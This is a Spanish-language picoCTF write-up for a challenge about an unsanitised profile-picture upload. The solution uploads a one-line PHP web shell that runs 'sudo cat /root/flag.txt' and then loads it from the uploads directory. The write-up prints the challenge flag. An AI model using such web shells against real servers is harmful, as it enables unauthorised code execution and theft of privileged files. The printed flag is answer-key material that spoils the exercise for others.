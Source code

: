 ### Descripción
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:49566/)!

Hints:
1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check `sudo -l`

### Solución
Entramos al servidor y observamos que permite subir un archivo.
Creamos un archivo con nano shell.php que contendra lo siguiente:

```
<?php echo exec("sudo cat /root/flag.txt");?>
```

Subimos ese archivo y cambiamos el link a:
```
http://standard-pizzas.picoctf.net:49566/uploads/shell.php 
```

Al recargar la página nos muestra la flag:
picoCTF{wh47_c4n_u_d0_wPHP_b42a374d}

### Notas adicionales
La instrucción de PHP que introducimos hace un cat al archivo de la bandera en el root mediante los privilegios de superusuario para poder mostrarla correctamente. 

### Referencias

